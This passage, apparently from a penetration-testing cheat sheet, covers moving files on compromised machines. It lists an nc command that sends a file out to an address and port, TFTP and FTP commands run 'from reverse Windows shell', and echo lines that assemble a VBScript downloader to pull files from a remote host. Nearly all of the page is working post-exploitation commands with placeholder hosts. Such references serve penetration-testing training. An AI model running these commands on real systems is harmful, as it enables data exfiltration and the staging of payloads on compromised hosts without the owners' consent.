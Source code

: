 <span id="anchor-51"></span>Sending

|                                                     |
| --------------------------------------------------- |
| nc **\<address\>** **\<port\>** \< **\<filename\>** |

<span id="anchor-52"></span>TFTP (from reverse Windows shell)

|                                             |
| ------------------------------------------- |
| tftp **\<ipaddress\>** GET **\<filename\>** |

<span id="anchor-53"></span>FTP (from reverse Windows shell)

<table>
<tbody>
<tr class="odd">
<td><p>echo open <strong>&lt;ipaddress&gt;</strong> 21&gt; ftp.txt<br />
echo USER offsec&gt;&gt; ftp.txt<br />
echo <strong>&lt;password&gt;</strong>&gt;&gt; ftp.txt<br />
echo bin &gt;&gt; ftp.txt<br />
echo GET <strong>&lt;filename&gt;</strong> &gt;&gt; ftp.txt<br />
echo bye &gt;&gt; ftp.txt</p>
<p><br />
ftp –v -n -s:ftp.txt</p></td>
</tr>
</tbody>
</table>

<span id="anchor-54"></span>VBScript (from reverse Windows shell)

Usage: cscript http://**\<ipaddress\>**/**\<file\>**
**\<localfilename\>**

<table>
<tbody>
<tr class="odd">
<td>echo strUrl = WScript.Arguments.Item(0) &gt; wget.vbs<br />
echo StrFile = WScript.Arguments.Item(1) &gt;&gt; wget.vbs<br />
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 &gt;&gt; wget.vbs<br />
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 &gt;&gt; wget.vbs<br />
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 &gt;&gt; wget.vbs<br />
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 &gt;&gt; wget.vbs<br />
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts &gt;&gt; wget.vbs<br />
echo Err.Clear &gt;&gt; wget.vbs<br />
echo Set http = Nothing &gt;&gt; wget.vbs<br />
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") &gt;&gt; wget.vbs<br />
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") &gt;&gt; wget.vbs<br />
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") &gt;&gt; wget.vbs<br />
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") &gt;&gt; wget.vbs<br />
echo http.Open "GET", strURL, False &gt;&gt; wget.vbs<br />
echo http.Send &gt;&gt; wget.vbs<br />
echo varByteArray = http.ResponseBody &gt;&gt; wget.vbs<br />
echo Set http = Nothing &gt;&gt; wget.vbs<br />
echo Set fs = CreateObject("Scripting.FileSystemObject") &gt;&gt; wget.vbs<br />
echo Set ts = fs.CreateTextFile(StrFile, True) &gt;&gt; wget.vbs<br />
echo strData = "" &gt;&gt; wget.vbs<br />
echo strBuffer = "" &gt;&gt; wget.vbs<br />
echo For lngCounter = 0 to UBound(varByteArray) &gt;&gt; wget.vbs<br />
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) &gt;&gt; wget.vbs<br />
echo Next &gt;&gt; wget.vbs<br />
echo ts.Close &gt;&gt; wget.vbs</td>
</tr>
</tbody>
